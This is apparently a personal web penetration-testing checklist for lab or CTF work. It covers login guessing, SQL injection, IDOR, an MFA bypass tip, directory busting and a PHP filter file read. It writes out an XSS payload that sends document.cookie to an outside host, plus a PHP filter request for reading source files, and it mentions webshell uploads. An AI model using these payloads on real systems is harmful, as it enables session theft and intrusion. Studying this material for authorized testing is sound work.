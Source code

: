 Quick check:
	is there a login?
		try admin, administrator..
		try sqli


What's running
	check nmap
	look at web page
	view source code
	burp
		check X-Powered-By header

robots.txt

check source for
	links to "hidden" pages like admin-panels
	passwords
	hints
	mail addresses of users and admins/support/privileged users

list possible users and usernames
	validate?
		login form
		registation form

login
	second step of mfa can sometimes be bypassed by just going to a page requiring the access
	

check for IDOR
	numbers
	random ids
	...

Google
	"technology/framework" exploit
	poc
	cve

What's the file structure
	check common ones
		admin, 
	Directory busting
	[[InfoSec/Tools n Info/02 - Web Exploration/Fuzzing/gobuster|gobuster]]
	[[feroxbuster|feroxbuster]]

virtual hosts

checking for REST Endpoints or GET/POST parameters to exploit
	are there forms
	.ajax() call (if jQuery)
	.fetch 
	in browser
		forms: we find on the webpage - open the network tab in the dev tools of the browser - send off the form - see where the connection goes to in the network tab

Checking for REST Endpoints in the information we collected (source code or directory busting)

Parameters & Injections
	try changing id= 1 to 2 ... '
	"/item/13" <- change the 13 to 1 or 0
	html injections
		`<img src='http://10.10.14.156:8000/dog.jpg'>`
		`<img src='a' onerror='var i=new Image;i.src="http://10.10.14.156:8000/?"%2bdocument.cookie;'>`
	SQLi
	commands in the os's shell
	commands in programming language

Where ^
	forms
	parameters in url

PHP filter
	PHP://filter/convert.base64-encode/resource=
	example: `GET /test.php?view=PHP://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php HTTP/1.1`

webshell or revshell upload
	use what the system is built on; php, python django, vbscript node.js... perl might also work



https://owasp.org/www-project-web-security-testing-guide/latest/

